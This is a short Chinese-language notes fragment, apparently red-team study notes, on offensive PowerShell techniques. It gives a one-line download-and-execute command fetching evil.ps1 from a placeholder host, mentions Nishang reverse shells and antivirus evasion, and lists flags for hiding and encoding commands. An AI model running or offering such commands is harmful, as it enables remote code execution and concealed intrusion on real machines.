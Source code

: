 ### 🔧 利用 PowerShell 的方式

- 記憶體中執行（避開防毒）
    
- 執行遠端下載指令：
    
    `iex (New-Object Net.WebClient).DownloadString("http://host/evil.ps1")`
    
- 反向連線 shell：
    
    - TCP、UDP、ICMP 模式都有（如 Nishang 工具集）
        

### 🎭 混淆與隱藏技巧

- `EncodedCommand` + `Base64`
- `-WindowStyle Hidden` 隱藏執行
- `-NoProfile` 不載入設定檔